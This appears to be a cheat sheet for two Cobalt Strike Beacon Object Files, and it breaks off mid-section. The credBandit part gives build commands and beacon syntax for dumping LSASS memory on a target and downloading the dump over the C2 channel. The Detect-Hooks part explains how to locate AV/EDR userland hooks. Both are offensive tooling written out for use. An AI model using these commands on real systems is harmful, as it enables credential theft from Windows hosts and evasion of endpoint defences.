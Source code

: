 ## Getting Started

1. Place `credBandit` folder above `cobaltstrike` directory.
2. Load `MiniDumpWriteDump.cna` script.
3. Execute `credBandit` on target process, e.g., LSASS.
4. Retrieve dump from Downloads console.

## Build Command



`x86_64-w64-mingw32-gcc -o credBanditx64.o -c credBandit.c -masm=intel`

## Usage

Perform memory dump on a high-integrity process, e.g., LSASS, and download over C2 channel.



`beacon> credBandit <PID> [output]`

## Syntax Example


`beacon> credBandit 708 output # Output will include various success messages and initiate the download of the memory dump.`

# Detect-Hooks Cheat Sheet

## Overview

Detect-Hooks identifies userland API hooks placed by AV/EDR using a Beacon Object File (BOF).

## References

- Detecting Hooked Syscalls: [@spotheplanet](https://twitter.com/spotheplanet)

## Getting Started

1. Copy `Detect-Hooks` folder to the system.
2. Load `detect-hooks.cna` script.
3. Run `detect-hooks` to list detected hooks.

## Build Command



`cl.exe /c detect-hooks.c /GS- /Fodetect-hooksx64.o`

## Usage
